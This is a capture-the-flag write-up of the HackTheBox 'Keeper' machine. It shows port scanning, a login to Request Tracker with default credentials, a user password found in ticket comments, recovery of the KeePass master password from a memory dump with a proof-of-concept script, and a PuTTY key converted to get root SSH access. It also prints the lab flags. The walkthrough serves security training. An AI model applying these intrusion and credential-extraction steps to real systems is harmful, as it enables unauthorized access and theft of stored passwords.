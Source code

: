 ```yaml
---
categories: [HackTheBox]
tags: [Keepass, PrivEsc, putty_gen]
image:
  path: /Vulnhub-Files/img/Keeper/front.png
  alt: https://www.hackthebox.com/achievement/machine/595651/556
---
```






![Untitled](/Vulnhub-Files/img/Keeper/Untitled.png)

 ⭐ [Box Profile](https://www.hackthebox.com/achievement/machine/595651/556)

## Port Scan Results ⤵️

```bash
┌──(kali㉿kali)-[~/Downloads/HTB/Keeper]
└─$ sudo nmap -sC -sV -T4 10.10.11.227 -oN Nmap_results.txt

Starting Nmap 7.94 ( https:/nmap.org ) at 2023-08-28 13:17 IST
Nmap scan report for 10.10.11.227
Host is up (0.16s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 35:39:d4:39:40:4b:1f:61:86:dd:7c:37:bb:4b:98:9e (ECDSA)
|_  256 1a:e9:72:be:8b:b1:05:d5:ef:fe:dd:80:d8:ef:c0:66 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Site does not have a title (text/html).
Service Info: ; CPE: cpe:/o:linux:linux_kernel
```
{: .nolineno}
{: .nolineno}

## Web Enumeration ⤵️

On loading the port 80 I got this redirect link →

![Untitled](/Vulnhub-Files/img/Keeper/Untitled%201.png)

Now when I get the /etc/hosts file as `tickets.keeper.htb`  I got this Request Tracker page Login Page →

![Untitled](/Vulnhub-Files/img/Keeper/Untitled%202.png)

Now with default credentails I used username : root , password : password and I got into the login page →

![Untitled](/Vulnhub-Files/img/Keeper/Untitled%203.png)

While Enumeration I got this content →

![Untitled](/Vulnhub-Files/img/Keeper/Untitled%204.png)

I got a username and the password in comments column →

![Untitled](/Vulnhub-Files/img/Keeper/Untitled%205.png)

Credentials →

```bash
lnorgaard : Welcom2023!
```
{: .nolineno}
{: .nolineno}

## Shell ⤵️

```bash
┌──(kali㉿kali)-[~/Downloads/HTB/Keeper]
└─$ ssh lnorgaard@keeper.htb    
The authenticity of host 'keeper.htb (10.10.11.227)' cant be established.
ED25519 key fingerprint is SHA256:hczMXffNW5M3qOppqsTCzstpLKxrvdBjFYoJXJGpr7w.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'keeper.htb' (ED25519) to the list of known hosts.
lnorgaard@keeper.htb is password: 
Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 5.15.0-78-generic x86_64)

 * Documentation:  https:/help.ubuntu.com
 * Management:     https:/landscape.canonical.com
 * Support:        https:/ubuntu.com/advantage
Failed to connect to https:/changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings

You have mail.
Last login: Mon Aug 28 10:13:23 2023 from 10.10.15.16
lnorgaard@keeper:~$
```
{: .nolineno}
{: .nolineno}

Lets dig deeper →

```bash
lnorgaard@keeper:~$ ls -al
total 333032
drwxr-xr-x 5 lnorgaard lnorgaard      4096 Aug 28 09:58 .
drwxr-xr-x 3 root      root           4096 May 24 16:09 ..
lrwxrwxrwx 1 root      root              9 May 24 15:55 .bash_history -> /dev/null
-rw-r--r-- 1 lnorgaard lnorgaard       220 May 23 14:43 .bash_logout
-rw-r--r-- 1 lnorgaard lnorgaard      3771 May 23 14:43 .bashrc
drwx------ 2 lnorgaard lnorgaard      4096 May 24 16:09 .cache
drwx------ 3 lnorgaard lnorgaard      4096 Aug 28 09:13 .gnupg
-rwxr-x--- 1 lnorgaard lnorgaard 253395188 May 24 12:51 KeePassDumpFull.dmp
-rw------- 1 lnorgaard lnorgaard        20 Aug 28 09:34 .lesshst
-rwxr-x--- 1 lnorgaard lnorgaard      3630 May 24 12:51 passcodes.kdbx
-rw-rw-r-- 1 lnorgaard lnorgaard      2735 Aug 28 09:40 poc.py
-rw------- 1 lnorgaard lnorgaard       807 May 23 14:43 .profile
-rw------- 1 lnorgaard lnorgaard         5 Aug 28 09:15 .python_history
-rw-rw-r-- 1 lnorgaard lnorgaard    156929 Aug 28 09:14 res.txt
-rw-r--r-- 1 root      root       87391651 Aug 28 10:28 RT30000.zip
drwx------ 2 lnorgaard lnorgaard      4096 Jul 24 10:25 .ssh
-rw------- 1 lnorgaard lnorgaard     12288 Aug 28 09:08 .swp
-rw-r----- 1 root      lnorgaard        33 Aug 28 09:00 user.txt
-rw-r--r-- 1 root      root             39 Jul 20 19:03 .vimrc
lnorgaard@keeper:~$ cat user.txt 
2b10a78fdfebe350af5b4f9635b38c6a
lnorgaard@keeper:~$
```
{: .nolineno}
{: .nolineno}

Now I extracted this RT30000.zip file in my host machine and got 2 files 1 file contains dumps of that passwords which will be used to crack the other file which is a keepass password file named as `passcodes.kdbx`

![Untitled](/Vulnhub-Files/img/Keeper/Untitled%206.png)

![Untitled](/Vulnhub-Files/img/Keeper/Untitled%207.png)

To crack this password I need to download a .NET script to extract the password from this .dmp file →

https:/github.com/CMEPW/keepass-dump-masterkey

Now I extracted the password using this above code →

```bash
┌──(kali㉿kali)-[~/Downloads/HTB/Keeper]
└─$ python3 poc.py -d KeePassDumpFull.dmp
2023-08-28 15:24:07,331 [.] [main] Opened KeePassDumpFull.dmp
Possible password: ●,dgr●d med fl●de
Possible password: ●ldgr●d med fl●de
Possible password: ●`dgr●d med fl●de
Possible password: ●-dgr●d med fl●de
Possible password: ●`dgr●d med fl●de
Possible password: ●]dgr●d med fl●de
Possible password: ●Adgr●d med fl●de
Possible password: ●Idgr●d med fl●de
Possible password: ●:dgr●d med fl●de
Possible password: ●=dgr●d med fl●de
Possible password: ●_dgr●d med fl●de
Possible password: ●cdgr●d med fl●de
Possible password: ●Mdgr●d med fl●de
```
{: .nolineno}
{: .nolineno}

I have to guessed it but I searched on web and it is Dutch language →

![Untitled](/Vulnhub-Files/img/Keeper/Untitled%208.png)

so lets extract this data →

![Untitled](/Vulnhub-Files/img/Keeper/Untitled%209.png)

![Untitled](/Vulnhub-Files/img/Keeper/Untitled%2010.png)

Now I got this putty id_rsa key so I copied all the Notes content into `keeper.txt` file and for making it into its `id_rsa` format I have used a script called puttygen and specified its type and output file →

```bash
┌──(kali㉿kali)-[~/Downloads/HTB/Keeper]
└─$ puttygen keeper.txt -O private-openssh -o id_rsa
```
{: .nolineno}
{: .nolineno}

Now Lets login into the root with this private key and also change its file permission to 600 →

```bash
┌──(kali㉿kali)-[~/Downloads/HTB/Keeper]
└─$ sudo ssh root@tickets.keeper.htb -i id_rsa
The authenticity of host 'tickets.keeper.htb (10.10.11.227)' cant be established.
ED25519 key fingerprint is SHA256:hczMXffNW5M3qOppqsTCzstpLKxrvdBjFYoJXJGpr7w.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'tickets.keeper.htb' (ED25519) to the list of known hosts.
Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 5.15.0-78-generic x86_64)

 * Documentation:  https:/help.ubuntu.com
 * Management:     https:/landscape.canonical.com
 * Support:        https:/ubuntu.com/advantage
You have new mail.
Last login: Tue Aug  8 19:00:06 2023 from 10.10.14.41
root@keeper:~# whoami
root
root@keeper:~# id
uid=0(root) gid=0(root) groups=0(root)
root@keeper:~# ls -al
total 85384
drwx------  5 root root     4096 Jul 27 13:57 .
drwxr-xr-x 18 root root     4096 Jul 27 13:52 ..
lrwxrwxrwx  1 root root        9 May 24 15:54 .bash_history -> /dev/null
-rw-r--r--  1 root root     3106 Dec  5  2019 .bashrc
drwx------  2 root root     4096 May 24 16:58 .cache
-rw-------  1 root root       20 Jul 27 13:57 .lesshst
lrwxrwxrwx  1 root root        9 May 24 15:54 .mysql_history -> /dev/null
-rw-r--r--  1 root root      161 Dec  5  2019 .profile
-rw-r-----  1 root root       33 Aug 28 13:13 root.txt
-rw-r--r--  1 root root 87391651 Jul 25 19:56 RT30000.zip
drwxr-xr-x  2 root root     4096 Jul 25 20:11 SQL
drwxr-xr-x  2 root root     4096 May 24 16:09 .ssh
-rw-r--r--  1 root root       39 Jul 20 19:03 .vimrc
root@keeper:~# cat root.txt
e034f821aeb7de6d2677c1776ac482b8
root@keeper:~#
```
{: .nolineno}

> If you have any questions or suggestions, please leave a comment below.
Thank You ! 
{: .prompt-tip }